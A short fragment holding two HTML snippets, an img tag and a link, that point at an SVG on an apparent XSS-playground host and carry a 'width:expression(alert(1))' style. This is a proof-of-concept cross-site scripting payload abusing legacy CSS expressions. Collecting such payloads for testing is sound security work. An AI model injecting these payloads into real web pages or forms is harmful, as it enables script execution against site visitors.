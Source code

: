 <img src="http://xssplayground.net23.net/xssimagefile2.svg" style="width:expression(alert(1))">
<a href="http://
xssplayground.net23.net/xssimagefile2.svg" style="width:expression(alert(1))">click</a>
